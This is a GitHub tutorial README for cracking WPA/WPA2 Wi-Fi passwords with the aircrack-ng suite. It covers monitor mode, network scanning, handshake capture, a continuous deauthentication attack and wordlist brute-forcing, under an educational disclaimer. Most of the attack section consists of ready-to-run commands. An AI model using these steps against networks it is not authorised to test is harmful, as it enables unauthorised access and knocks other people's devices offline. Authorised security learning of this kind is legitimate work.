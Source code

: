 # Wi-Fi Cracking Tutorial: WPA/WPA2 Cracking with Aircrack-ng

## Introduction
This the next part of https://github.com/Officerwasu/Wi-Fi_pentesting 

Read that first.

**Disclaimer:** *This tutorial is for educational purposes only. Attempting to crack Wi-Fi networks for which you do not have explicit permission is illegal and unethical. Always respect privacy and operate within legal boundaries.*


## Prerequisites
List what the user needs before they start:
* **Hardware:**
    * Wireless network adapter capable of monitor mode and packet injection.
* **Software:**
    * Any linux distro with sudo permissions.
    * aircrack-ng suite

## Setup
Instructions for any initial setup:
1.  Installing necessary tools.
    ```bash
    sudo apt update && sudo apt install aircrack-ng
    ```
2.  Ensuring your wireless adapter is recognized and can be put into monitor mode.
    * `ifconfig`
    * `ifconfig [wireless interface, eg wlan0]`
       * Example: ![Monitor Mode Activation](images/ifconfig.png)
    * `sudo airmon-ng start wlan0`
       * Example: ![Monitor Mode Activation](images/monitor_mode.png)

## Tutorial Steps

### Step 1: Scanning for Target Networks
1. `sudo airodump-ng wlan0`
2.  It will show you all the wifi networks in your vicinity
3.  What to look for BSSID, CH, ESSID of the target network.
     * Example: ![Airodump Scan](images/airodump.png)
    

### Step 2: Capturing the Handshake
1.  `sudo airodump-ng -c [channel] --bssid [BSSID] --write capture wlan0`.
    * Example: ![Handshake Capture](images/handshake.png)
      
2.  (Optional) Deauthenticating a client to speed up handshake capture.
    * `sudo aireplay-ng --deauth 0 -a [BSSID] wlan0`
        * Example:
        * ![Deauth Attack](images/deauth.png)

### Step 3: Cracking the Password
Brute-force attack.
1.  Using Aircrack-ng with a wordlist:
    *`aircrack-ng [capturefile.cap] -w [path to wordlist]`.
    * Example: ![Aircrack Success](images/aircrack.png)


### Step 4: [Cleanup]
1.  Well we found the key
2.  `sudo airmon-ng stop wlan0` and `sudo sservice NetworkManager restart`
     * Example: ![Network Restored](images/restored.png)

        
